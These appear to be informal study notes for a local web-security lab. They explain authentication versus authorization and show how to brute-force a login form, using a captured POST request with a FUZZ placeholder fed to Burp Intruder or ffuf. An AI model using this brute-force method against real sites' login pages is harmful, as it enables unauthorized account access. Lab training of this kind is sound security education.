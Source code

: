 Critical component of application security 
Since many of the flaws are logic based  and this means that we get to review the authentication flow and come up with edge cases to break it

**Authentication / Authorization or Access Control**

- Authentication is who u are its  your identity
- Authorization or Access Control on the other hand is what you are allowed to do

Now there are two main ways we are going to approach attacking authentication
- first we will look at for brute force attack something that a lot of development teams underestimate
- Second we will look at logic issues favorite things to test for as they often turn out to be critical issues and usually undetected by scanners and automated tools

## ==Brute-force Attacks==

Auth 0x01 LAB 1

url = localhost/labs/a0x01.php
username = jeremy
password = ?
First capture the request using burpsuite

```python
┌──(cyber㉿kali)-[~]
└─$ cat req.txt
POST /labs/a0x01.php HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 33
Origin: http://localhost
Connection: close
Referer: http://localhost/labs/a0x01.php
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1

username=jeremy&password=FUZZ

```

Two way to brute force this 1) Burp suite Intruder 2) Fuzzing using FFUF
In burp capture the post request where the username and password is present that u put it send it to intruder grab the area of after password= grab this  by $Add sign for e.g here's the hello word select the payload ignore the warning and attack it
```python

§POST /labs/a0x01.php HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: http://localhost/
Content-Type: application/x-www-form-urlencoded
Content-Length: 26
Connection: close
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
```